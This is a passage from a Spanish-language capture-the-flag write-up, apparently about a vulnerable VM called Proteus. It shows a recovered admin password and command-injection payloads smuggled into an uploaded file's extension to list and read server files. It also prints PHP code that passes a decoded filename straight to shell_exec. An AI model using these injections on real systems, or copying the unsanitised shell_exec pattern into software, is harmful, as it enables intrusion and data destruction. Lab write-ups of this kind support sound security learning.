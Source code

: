 ```
      cookies: phantom.cookies
  }));
...
```

# Contraseña de *malwareadm*

No sé si esta es la forma que el creador de la máquina virtual ha previsto para encontrar la clave... pero bueno, aquí la hemos obtenido en codificación BASE64. Si la ponemos en claro, tenemos:

+ **Usuario**: *malwareadm*
+ **Contraseña**: *q-L@X!{l_'8|)o?Q+TapahQ<_*

![malwareadm logged in]({{ site.url }}/assets/proteus_malwareadm_loggedin.png "malwareadm logged in")

Y comprobamos que la página *samples* ahora nos muestra una nueva opción **DELETE** que nos permite borrar archivos previamente subidos.

Este borrado se realiza mediante un link en el que se indica el fichero a borrar utilizando la codificación BASE64 del nombre de archivo:

![Enlace para borrar archivo]({{ site.url }}/assets/proteus_delete_sample_code.png "Enlace para borrar archivo")

Si borramos alguno de los archivos:

![Archivo borrado]({{ site.url }}/assets/proteus_sample_deleted.png "Archivo borrado")

Recordemos que habíamos encontrado que existe el archivo *route.delete.php*. Como el parámetro que se utiliza para borrar un archivo es el nombre de dicho archivo en codificación BASE64, podemos pensar que es posible realizar algún tipo de inyección de código. En lugar de hacer pruebas a ciegas, vamos a ver el contenido de dicho archivo para comprobar si es posible.

Para obtener el código de dicha página, subimos un archivo y modificamos la extensión:

```
Usamos como extensión .elf&find $(dirname $(dirname `pwd`)) -name *delete*

/home/malwareadm/sites/proteus_site/web/templates/delete.twig.html
/home/malwareadm/sites/proteus_site/web/routes/route.delete.php
```

Vemos que hay dos ficheros... mostramos el contenido de ambos.

```
Usamos como extensión .elf&for d in $(find $(dirname $(dirname `pwd`)) -name *delete*); do strings $d; done

...
<?php
  $app->get('/delete/:filename/?',
          $work = function ($filename) use ($app) {
              if (isset($_SESSION['name'])) {
                $message = "Logged in as: " . $_SESSION['name'];
                if (isset($_SESSION['admin'])) {
                  $admin = 1;
                } else {
                  $admin = 0;
                }
              } else {
                $app->redirect(conf::INSTALLED_DIRECTORY);
              }
              //get all submitted files
              foreach(array_diff(scandir(Conf::FILE_PATH), array('.', '..')) as $file) {
                if (strpos(base64_decode($filename), $file) !== false) {
                  shell_exec('rm '. Conf::FILE_PATH . base64_decode($filename));
                  $message = "Successfully deleted " . Conf::FILE_PATH . base64_decode($filename);
```